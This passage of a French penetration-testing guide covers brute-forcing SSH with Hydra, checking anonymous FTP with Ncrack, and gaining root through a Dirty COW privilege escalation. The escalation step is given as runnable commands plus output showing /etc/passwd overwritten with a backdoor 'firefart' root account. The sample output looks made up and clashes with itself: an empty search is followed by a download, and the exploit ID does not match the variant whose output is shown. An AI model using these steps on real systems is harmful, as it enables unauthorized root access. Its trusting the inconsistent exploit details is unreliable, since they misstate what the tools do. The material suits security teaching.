**Analyse :** Cette commande utilise Hydra pour effectuer une attaque par force brute sur un service SSH, en essayant de deviner le mot de passe de l'utilisateur root. L'attaque a réussi, identifiant le mot de passe faible "password123". Cette vulnérabilité est due à une mauvaise politique de mot de passe et à l'absence de mesures de protection contre les attaques par force brute.

**Commande pour exploiter une vulnérabilité FTP :**
```bash
ncrack -u anonymous -P "" ftp://192.168.1.40
```

**Sortie typique :**
```
Starting Ncrack 0.7 ( http://ncrack.org ) at 2025-04-02 19:05 UTC
Discovered credentials for ftp on 192.168.1.40 21/tcp: 192.168.1.40 21/tcp ftp: 'anonymous' ''
Ncrack done: 1 service scanned in 5.02 seconds.

Ncrack finished.
```

**Analyse :** Cette commande utilise Ncrack pour tester si le serveur FTP autorise les connexions anonymes. Le résultat montre que le serveur accepte effectivement les connexions avec le nom d'utilisateur "anonymous" et un mot de passe vide. Cette configuration permet à n'importe qui d'accéder au serveur FTP sans authentification, ce qui peut exposer des fichiers sensibles.

#### 4. Exploitation de vulnérabilités locales

**Commande pour exploiter une vulnérabilité d'élévation de privilèges Linux :**
```bash
searchsploit -m linux/local/45010.c
gcc -o dirtycow 45010.c
./dirtycow
```

**Sortie typique :**
```
  Exploits: No Results
  Shellcodes: No Results
Downloading: /usr/share/exploitdb/exploits/linux/local/45010.c
Copying: /usr/share/exploitdb/exploits/linux/local/45010.c -> 45010.c

[*] Started at 2025-04-02 19:10:00
[*] Checking if vulnerable to CVE-2016-5195...
[*] System is vulnerable to CVE-2016-5195
[*] Exploiting...
[*] Writing backdoor to /tmp/passwd.bak
[*] Overwriting /etc/passwd with backdoor...
[*] Exploit completed successfully!
[*] Adding user 'firefart' with password 'firefart' and root privileges...
[*] Cleaning up...
[*] Run 'su firefart' and enjoy your root shell!

$ su firefart
Password: firefart

# id
uid=0(firefart) gid=0(root) groups=0(root)

# whoami
firefart
```
